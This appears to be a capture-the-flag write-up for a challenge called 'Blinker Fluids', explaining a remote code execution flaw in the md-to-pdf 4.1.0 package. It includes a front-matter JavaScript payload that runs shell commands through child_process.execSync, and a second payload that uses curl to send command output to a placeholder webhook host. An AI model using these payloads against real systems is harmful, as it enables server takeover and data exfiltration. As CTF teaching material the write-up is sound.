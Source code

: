  # Blinker FLuids

__Description:__

>Once known as an imaginary liquid used in automobiles to make the blinkers work is now one of the rarest fuels invented on Klaus' home planet Vinyr. The Golden Fang army has a free reign over this miraculous fluid essential for space travel thanks to the Blinker Fluids™ Corp. Ulysses has infiltrated this supplier organization's one of the HR department tools and needs your help to get into their server. Can you help him?

## Walkthrough

We have a lightweight page in which we have the option to create Invioces.

![Screenshot0](./screenshots/0.png)

Plus, the challenge code is given to us here.

So I took a look at the source code of the application.


![Screenshot1](./screenshots/1.png)

The file `package.json` shows us that the application works with the Markdown package `"md-to-pdf": "4.1.0"`.

I learned online that this package probably has an RCE vulnerability.

[security.snyk.io](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880)

I entered the following payload with `sleep 10` first to detect a time delay.

```
---js
((require("child_process")).execSync("sleep 10"))
---RCE
```

Since I was able to detect a time delay, that proves to us that dropping systemcommands works here.

## Flag - Data exfiltration

To exfiltrate the flag I used `webhook.site` and sent me the flag via `curl` with the following payload.

__Payload:__


```
---js
((require("child_process")).execSync("curl -X POST --data `id | base64` https://<WEBHOOK_URL>>"))
---RCE
```

![Screenshot2](./screenshots/2.png)
